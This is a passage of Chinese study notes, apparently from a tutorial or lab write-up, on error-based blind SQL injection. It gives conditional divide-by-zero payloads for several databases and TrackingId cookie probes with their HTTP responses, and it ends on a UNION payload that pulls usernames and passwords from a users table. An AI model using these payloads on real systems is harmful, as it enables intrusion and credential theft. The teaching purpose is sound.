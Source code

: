 - 在各个数据库中：

  ```SQL
  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual --Oracle
  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END --微软/MySQL
  1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)--pOSTgreSQL
  SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') --MySQL
  ```

### 判断方法（sql）

> 1. 判断注入点是否可注
>
>    > ```SQL
>    > 1' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a // 此时界面正常
>    > 1' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a // 报错，因为除数为零
>    > ```
>
> 2. 判断字段数
>
>    > ```SQL
>    > 1' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE order by 2 -- // 界面正常，并判断字段数是否为 2
>    > 1' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE order by 2 -- // 报错
>    > ```

### 更简单基础的判断方法：引号是否闭合是否会对页面影响

> 目的：说明语法错误对这个点有影响，我们可以着重语法错误下手

有影响的情况：

```SQL
TrackingId=xyz'  #返回500错误，500表示服务器遇到了不知道如何处理的错误
TrackingId=xyz''	#返回200正确
```

无影响的情况：

```SQL
TrackingId=xyz'	#返回504错误
TrackingId=xyz''	#返回504错误
#504表示当服务器充当网关时无法及时获得响应，会给吹此错误
```

### 解释：双管道符`||`的应用

> 表示字符串的连接（在~~所有版本~~**Oracle、PostgreSQL**的数据库中都是这个作用）

例如1：

把列名相连接

```SQL
' UNION SELECT username || '~' || password FROM users--
#表示把查询到的username和password用符号‘~’链接起来,即username~password
```

